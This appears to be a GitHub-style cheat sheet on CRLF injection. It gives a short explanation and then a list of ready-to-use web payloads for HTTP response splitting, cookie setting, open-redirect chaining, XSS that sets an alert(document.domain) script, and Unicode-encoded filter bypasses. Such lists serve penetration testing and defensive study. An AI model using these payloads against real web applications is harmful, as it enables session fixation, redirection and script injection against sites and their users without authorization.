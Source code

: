 # **CRLF Injection (%0d%0a)**
## **What is CRLF Injection?** ##
CRLF injection vulnerability is a type of security flaw that occurs when an attacker can inject carriage return (CR) and line feed (LF) characters into an application's input. These characters are used to control the formatting of text in protocols like HTTP. Exploiting this vulnerability can allow attackers to manipulate the behavior of the application, such as inserting additional HTTP headers, modifying content, or performing other malicious actions. This can lead to various attacks, including HTTP response splitting, cross-site scripting (XSS), and session fixation.

## **Payloads**

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue
2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                     
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com
3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
### **Reference:** ###
[https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46](https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46)